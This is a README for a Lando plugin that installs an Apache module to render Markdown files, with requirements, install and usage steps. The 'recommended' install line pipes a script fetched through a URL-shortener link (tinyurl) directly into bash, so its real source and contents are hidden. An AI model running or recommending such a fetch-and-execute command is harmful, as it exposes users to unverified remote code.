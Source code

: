 # apache-mod-markdown
Lando plugin that installs an Apache webserver module to render Markdown files

## Requirements
- [Lando](https://docs.lando.dev/getting-started/) 3.23.26 or later
- [Node.js](https://nodejs.org/en/download/) 20 or later
- A Lando application running Apache 2.4

## Installation (recommended)
```bash
/bin/bash -c "$(curl -fsSL https://tinyurl.com/3x2hnkhy)"
```

## Installation (manual)
```bash
lando plugin-add https://github.com/uberhacker/apache-mod-markdown
cd ~/.lando/plugins/apache-mod-markdown
npm install
```

## Usage
1. Add the following section to your application's `.lando.yml`:
```yaml
services:
  appserver:
    build_as_root:
      - /helpers/markdown.sh
```
2. Execute `lando rebuild -y`.
3. Visit any URL in your browser that ends in `.md` to see the rendered HTML.
